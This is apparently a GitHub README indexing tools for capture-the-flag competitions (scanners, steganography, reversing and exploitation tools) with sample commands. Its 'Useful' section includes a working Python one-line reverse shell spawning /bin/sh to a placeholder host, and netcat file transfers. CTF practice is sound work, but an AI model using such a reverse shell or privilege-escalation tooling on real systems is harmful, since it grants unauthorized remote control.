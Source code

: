 # CTF-tools
Collection of useful tools for CTFs.


## Categories
  - [Web](#web)
  - [Crypto](#crypto)
  - [Steganography](#Steganography)
  - [Binary/Reverse](#binary/reverse)
  - [Other](#other)
  - [Useful](#useful)
  - [to update]

---

## Web

* nmap
```
Example usage : sudo nmap -sS -A -T4 <ip_target> -oN <name_output> -vv
```
* gobuster
```
Example usage for directory/file enum :
                gobuster dir -u <ip_target> --wordlist <path_to_wordlist> -x <extensions>
  where:  * path_to_wordlist can be something like "/usr/share/wordlists/<wordlist>"
          * extensions like php, txt, js, cgi, sh, ...
```
* dirb
* curl
* nikto
```
Example usage: nikto -h <ip_target>
```
* wpscan
* wget 
```
Example usage: wget <url>
```
* golismero
```
Example usage:
golismero scan -i /root/port80.xml -o sub1-port80.html
```
* Burpsuite
---

## Crypto

* [CyberChef](https://gchq.github.io/CyberChef/)

---

## Steganography

* steghide
```
Example usage: steghide <command> <file>
  where command can be:   > info
                          > extract 
                          > embed 
```
* [Stegosolve](http://www.caesum.com/handbook/Stegsolve.jar)
* exif
* exiftool
* binwalk

---

## Binary/Reverse

* checksec
* strings
* ltrace
* strace
* frida
* gdb / gdb-peda
* hexdump (-C option very useful)
* objdump
* apktool
* Jadx -- Java decompiler 

---

## Other

* nc -- TCP/IP swiss army knife
* linpeas.sh -- for Linux Privesc
* sudo -l -- to get which files I can run with sudo
* searchsploit -- search through Exploit db archive
```
Example usage: searchsploit OpenSSH 7.2p2
               searchsploit -p 46635  -- it returns the URL of the CVE in exploit db
```
* msfconsole -- the god tool for exploitation


---



## Useful

* sending a file using nc:
```
    client side : nc -lvp <port> > <file>
    server side : nc <ip_server> <port_server> < <file>
```
* sending a file using nc + wget:
```
    client side : nc -lvp <port> < <file>
    server side : wget <ip_server>:<port_server>/<file>

!! [NOTE: protocol will continue after transmission of file (maybe because client side does not receive CRLF sequence). So after a while, just press CTRL+c et voit-là] 
```
* to convert a python script from v.2 to v.3
```
    python3 -m lib2to3 <script>.py -w
```
* connect to server pop3 (port 110) using telnet:
```
    telnet <ip> 110
```
* reverse shell with one line only, using python3:
```
    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* run a simple python3 server:
```
    python -m http.server
```
* create a generic ssl/tls client which establishes a connection to a remote server speaking ssl/tls.
```
Example:    openssl s_client -connect <ip_address>:<port>
    If all it is ok, paste the password and it’s done.
```
* append data to a file: 
```
Example usage: printf "<data>" |cat - <file> > <file_out>
    where data is something like "\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00"
```
* [PEM Parser](https://8gwifi.org/PemParserFunctions.jsp)
* [Decompile Jar,pyc,exe,class,...](https://www.decompiler.com/)

---




# Contributors

- Francesco Varotto - [@frarotto](https://github.com/francevarotz98/)
- Massimiliano Belluomini - [@massibelluomini](https://github.com/massibelluomini)
- Filippo Giambartolomei - [@filippogiamba](https://github.com/Filippo-arch)
